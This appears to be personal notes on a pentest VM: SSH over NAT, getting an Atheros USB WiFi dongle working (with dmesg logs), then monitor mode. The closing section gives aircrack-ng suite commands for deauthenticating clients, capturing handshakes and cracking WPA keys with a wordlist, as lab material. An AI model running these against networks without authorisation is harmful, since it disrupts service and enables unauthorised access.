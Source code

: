 ### Network 

Network -> NAT

service ssh status
ssh user@127.0.0.1 -p 2222

### Wireless

Ports -> USB -> WiFi Dongle

lsusb
sudo dmesg

```
[  238.804576] usb 1-2: new high-speed USB device number 5 using xhci_hcd
[  238.953703] usb 1-2: New USB device found, idVendor=0cf3, idProduct=9271, bcdDevice= 1.08
[  238.953705] usb 1-2: New USB device strings: Mfr=16, Product=32, SerialNumber=48
[  238.953706] usb 1-2: Product: UB93
[  238.953707] usb 1-2: Manufacturer: ATHEROS
[  238.953708] usb 1-2: SerialNumber: 12345
...
[  238.988581] usb 1-2: ath9k_htc: Firmware ath9k_htc/htc_9271-1.4.0.fw requested
[  238.989126] usbcore: registered new interface driver ath9k_htc
[  238.989846] usb 1-2: firmware: direct-loading firmware ath9k_htc/htc_9271-1.4.0.fw
[  239.286992] usb 1-2: ath9k_htc: Transferred FW: ath9k_htc/htc_9271-1.4.0.fw, size: 51008
[  240.411217] ath9k_htc 1-2:1.0: ath9k_htc: Target is unresponsive
[  240.411237] ath9k_htc: Failed to initialize the device
[  240.427473] usb 1-2: ath9k_htc: USB layer deinitialized
```

Reattach physical device:

```
[  404.512717] usb 1-2: USB disconnect, device number 5
[  423.360054] usb 1-2: new high-speed USB device number 6 using xhci_hcd
[  423.541860] usb 1-2: New USB device found, idVendor=0cf3, idProduct=9271, bcdDevice= 1.08
[  423.541861] usb 1-2: New USB device strings: Mfr=16, Product=32, SerialNumber=48
[  423.541863] usb 1-2: Product: UB93
[  423.541863] usb 1-2: Manufacturer: ATHEROS
[  423.541864] usb 1-2: SerialNumber: 12345
[  423.549958] usb 1-2: ath9k_htc: Firmware ath9k_htc/htc_9271-1.4.0.fw requested
[  423.550218] usb 1-2: firmware: direct-loading firmware ath9k_htc/htc_9271-1.4.0.fw
[  423.846398] usb 1-2: ath9k_htc: Transferred FW: ath9k_htc/htc_9271-1.4.0.fw, size: 51008
[  424.099526] ath9k_htc 1-2:1.0: ath9k_htc: HTC initialized with 33 credits
[  424.378491] ath9k_htc 1-2:1.0: ath9k_htc: FW Version: 1.4
[  424.378492] ath9k_htc 1-2:1.0: FW RMW support: On
[  424.378493] ath: EEPROM regdomain: 0x60
[  424.378494] ath: EEPROM indicates we should expect a direct regpair map
[  424.378495] ath: Country alpha2 being used: 00
[  424.378495] ath: Regpair used: 0x60
[  424.383775] ieee80211 phy1: Atheros AR9271 Rev:1
```

#### Monitor Mode

iwconfig
airmon-ng start wlan0
iwconfig

```
...
wlan0mon  IEEE 802.11  Mode:Monitor  Frequency:2.462 GHz  Tx-Power=20 dBm
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:off
```
aireplay-ng -9 wlan0mon

```
13:37:12  Trying broadcast probe requests...
13:37:12  Injection is working!
13:37:14  Found 4 APs

13:37:14  Trying directed probe requests...
...
```

Find Access Points:
airodump-ng wlan0mon

Find Clients:
airodump-ng -c CHANNEL --bssid BSSID -w psk wlan0mon

Deauth:
aireplay-ng -0 COUNT -a BSSID -c MAC wlan0mon

Find key:
aircrack-ng -w /usr/share/wordlists/rockyou.txt psk-*.cap

### Links

https://www.aircrack-ng.org/doku.php?id=deauthentication
